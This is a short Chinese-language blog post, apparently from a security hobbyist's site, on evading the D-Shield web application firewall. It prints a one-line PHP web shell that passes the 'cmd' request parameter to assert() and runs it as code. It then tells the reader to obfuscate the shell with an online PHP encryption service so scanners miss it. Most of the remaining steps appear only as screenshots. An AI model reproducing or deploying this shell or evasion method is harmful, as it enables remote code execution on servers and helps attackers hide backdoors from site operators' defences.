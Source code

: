```yaml
---
title: "PHP 加密 Bypass WAF"
date: 2018-03-19T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php', 'bypass']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


利用国内的 php 混淆加密绕过 waf

<!--more-->

原始代码

```
<?php
// shell.php
assert($_REQUEST['cmd']);
?>
```

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459418.jpg)

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459420.jpg)

D盾 4级

enphp.djunny.com

在线加密

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459422.jpg)

注意混淆选择字母 php 版本自行修改

加密后代码

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459424.jpg)

shell_encode.php

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03//19/1521459426.jpg)
